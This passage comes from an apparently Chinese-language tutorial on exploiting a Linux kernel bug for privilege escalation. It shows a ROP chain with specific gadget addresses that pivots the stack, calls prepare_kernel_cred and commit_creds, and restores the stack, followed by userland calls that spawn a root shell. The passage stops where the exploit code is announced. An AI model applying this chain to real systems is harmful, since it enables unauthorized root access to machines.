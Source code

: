 0x06 内核态返回
=====

最后一个问题，内核态如何返回用户态。

因为我们移植了内核栈，而内核态返回用户态的时候，需要从内核栈里头，弹出cs,eip,eflag,ss,esp等信息。当然，我们可以自己构造虚假的。但是内核栈里头有很多结构体，特别是提取时候要用到的task结构体，就在内核栈开始的地方。我没有试过构造虚假的内核栈，因为感觉太繁琐，而且也不知道可不可行。

于是我采取的是另外一种思路：

**把移植过来的栈，又移植回去。**

所以，我需要一个寄存器，来保存被移植前的esp。而prepare_kernel_cred() 和 commit_creds()。会对esi,edi,ebx三个寄存器进行保护：

![Alt text](http://drops.javaweb.org/uploads/images/966d33619489567223e1e1abf4ad50b354f32216.jpg)

我选择其中的esi来保存原始内核栈esp。那么rop链就变成了这样子：

| instruction | addr |  |
| :-- | --- | --- |
| xchg eax,esp;ret | 0xc1020eb1 | 覆盖到shm_mmap的指针 |
| xchg eax,esi;ret | 0xc1071395 | 覆盖shm_file的前四个字节 |
| pop eax;ret; | 0xc1431272 | fack_stask |
|  |  | fack_stask |
| perpare_kernel_creds; | 0xc1082e20 | fack_stask |
| commit_cred; | 0xc1082b60 | fack_stask |
| xchg eax,esi;ret | 0xc1071395 | fack_stask |
| xchg eax,esp;ret | 0xc1020eb1 | fack_stask |

0x07 get root shell
=====

最后，我们再用户态，调用：

```
setresuid(0, 0, 0);
setresgid(0, 0, 0);
execl("/bin/bash","/bin/bash",NULL);

```

整个提权利用，就完成了。

![Alt text](http://drops.javaweb.org/uploads/images/72769fec8385214acaa1747e48f761612a65671a.jpg)

0x08 exp
========

有很多的内核漏洞文章，讲了很多的内核漏洞利用技术：

修改ptmx->fop，修改addr_limit，修改task结构，修改中断描述符，将SMEP位反位等等，都博大精深。学习的路还很长很长。下面是这次提权的代码：
